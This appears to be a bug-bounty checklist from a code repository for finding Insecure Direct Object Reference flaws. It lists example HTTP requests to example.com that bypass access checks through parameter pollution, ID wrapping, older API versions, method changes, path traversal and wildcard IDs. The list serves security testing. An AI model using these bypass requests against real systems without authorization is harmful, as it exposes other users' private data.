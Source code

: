 # IDOR_Checklist
IDOR hunting checklist
# Insecure Direct Object Reference (IDOR)

## Introduction
IDOR stands for Insecure Direct Object Reference is a security vulnerability in which a user is able to access and make changes to data of any other user present in the system.

## Where to find
- Usually it can be found in APIs.
- Check the HTTP request that contain unique ID, for example `user_id` or `id`

## How to exploit
- [ ] Add parameters onto the endpoints for example, if there was
```
GET /api/v1/getuser HTTP/1.1
Host: example.com

Try this to bypass

GET /api/v1/getuser?id=1234 HTTP/1.1
Host: example.com
...
```

- [ ] HTTP Parameter pollution
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

user_id=hacker_id&user_id=victim_id
```

- [ ] Add .json to the endpoint
```
GET /v2/GetData/1234 HTTP/1.1
Host: example.com
...

Try this to bypass

GET /v2/GetData/1234.json HTTP/1.1
Host: example.com
...
```

- [ ] Test on outdated API Versions



| Initial Request     | Bypass Request |
|---------------------|----------------|
| POST /v1/GetData HTTP/1.1<br>Host: example.com<br>id=123 | POST /v2/GetData HTTP/1.1<br>Host: example.com<br>id=123 |




- [ ] Wrap the ID with an array.
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":111}

Try this to bypass

POST /api/get_profile HTTP/1.1
Host: example.com
...

{"id":[111]}
```

- [ ] Wrap the ID with a JSON object
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":111}

Try this to bypass

POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":{"user_id":111}}
```

- [ ] JSON Parameter Pollution.
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":"hacker_id","user_id":"victim_id"}
```

- [ ] Try decode the ID, if the ID encoded using md5,base64,etc.
```
GET /GetUser/dmljdGltQG1haWwuY29t HTTP/1.1
Host: example.com
...
```
dmljdGltQG1haWwuY29t => victim@mail.com

- [ ] If the website using GraphQL, try to find IDOR using GraphQL.
```
GET /graphql HTTP/1.1
Host: example.com
...
```
```
GET /graphql.php?query= HTTP/1.1
Host: example.com
...
```
- [ ] MFLAC (Missing Function Level Access Control)
```
GET /admin/profile HTTP/1.1
Host: example.com

Try this to bypass

GET /ADMIN/profile HTTP/1.1
Host: example.com
...
```

- [ ] Try to swap uuid with number
```
GET /file?id=90ri2-xozifke-29ikedaw0d HTTP/1.1
Host: example.com
...

Try this to bypass

GET /file?id=302
Host: example.com
...
```

- [ ] Change HTTP Method
```
GET /api/v1/users/profile/111 HTTP/1.1
Host: example.com
...

Try this to bypass

POST /api/v1/users/profile/111 HTTP/1.1
Host: example.com
...
```

- [ ] Path traversal
```
GET /api/v1/users/profile/victim_id HTTP/1.1
Host: example.com
...

Try this to bypass

GET /api/v1/users/profile/my_id/../victim_id HTTP/1.1
Host: example.com
...
```

- [ ] Change request `Content-Type`
```
GET /api/v1/users/1 HTTP/1.1
Host: example.com
Content-type: application/xml

Try this to bypass

GET /api/v1/users/2 HTTP/1.1
Host: example.com
Content-type: application/json
```

- [ ] Send wildcard instead of ID
```
GET /api/users/111 HTTP/1.1
Host: example.com

Try this to bypass

GET /api/users/* HTTP/1.1
Host: example.com

GET /api/users/% HTTP/1.1
Host: example.com

GET /api/users/_ HTTP/1.1
Host: example.com

GET /api/users/. HTTP/1.1
Host: example.com
```
- [ ] Try google dorking to find new endpoint


